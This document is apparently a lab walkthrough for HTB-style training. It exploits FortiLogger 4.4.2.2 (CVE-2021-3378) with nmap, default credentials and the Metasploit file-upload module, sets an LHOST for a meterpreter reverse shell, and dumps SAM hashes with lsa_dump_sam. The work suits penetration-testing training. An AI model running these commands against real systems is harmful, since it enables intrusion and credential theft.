



## Meterpreter

1. do an nse and version scan on the target.

```
sudo nmap -T5 -sCV $target_ip
```

output:
```
PORT     STATE SERVICE       VERSION
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: WIN-51BJ97BCIPV
|   NetBIOS_Domain_Name: WIN-51BJ97BCIPV
|   NetBIOS_Computer_Name: WIN-51BJ97BCIPV
|   DNS_Domain_Name: WIN-51BJ97BCIPV
|   DNS_Computer_Name: WIN-51BJ97BCIPV
|   Product_Version: 10.0.17763
|_  System_Time: 2026-11-09T00:56:51+00:00
|_ssl-date: 2026-11-09T00:56:58+00:00; -1s from scanner time.
| ssl-cert: Subject: commonName=WIN-51BJ97BCIPV
| Not valid before: 2026-11-08T00:55:17
|_Not valid after:  2027-05-10T00:55:17
5000/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: FortiLogger | Log and Report System
|_http-server-header: Microsoft-IIS/10.0
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

2. head to the target ip on port 5000 in the internet browser.

<p align="center">
  
</p>

3. try admin:admin default credentials.

<p align="center">
  
</p>

4. inspect fortilogger version.

<p align="center">
  
</p>

after some research, fortilogger 4.4.2.2 has an unauthenticated arbitrary file upload vulnerability (CVE-2021-3378).

5. open msfconsole.

```
msfconsole
```

6. search and use the fortilogger exploit.

```
msf > search fortilogger

msf > use exploit/windows/http/fortilogger_arbitrary_fileupload
```

7. set required settings.

```
msf exploit(windows/http/fortilogger_arbitrary_fileupload) > set RHOSTS 10.129.203.65
RHOSTS => 10.129.203.65
msf exploit(windows/http/fortilogger_arbitrary_fileupload) > set LHOST 10.10.14.205
LHOST => 10.10.14.205
```

8. run the exploit.

```
msf exploit(windows/http/fortilogger_arbitrary_fileupload) > run
```

9. obtain shell.

```
meterpreter > shell
```

10. get username.

```
C:\Windows\system32>whoami
```

11. go back to meterpreter and extract the windows sam database credentials/hashes for `htb-student`'s ntlm hash.

```
meterpreter > lsa_dump_sam
```